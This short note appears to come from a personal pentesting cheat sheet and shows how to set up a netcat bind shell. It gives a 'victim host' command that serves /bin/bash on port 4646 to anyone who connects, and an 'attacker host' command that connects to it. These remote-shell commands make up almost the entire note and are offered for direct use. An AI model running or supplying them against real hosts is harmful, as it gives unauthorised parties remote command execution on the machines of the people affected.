 ------

Using of [[Tools/Netcat|Netcat]]

-----------

# Netcat | nc

## Victim host

```bash
nc -nlvp 4646 -e /bin/bash
```

-------

### Attacker host

````bash
nc IPVICTIM 4646
````



-----
# Tags

#bindShell #nc #netcat #shell 

-----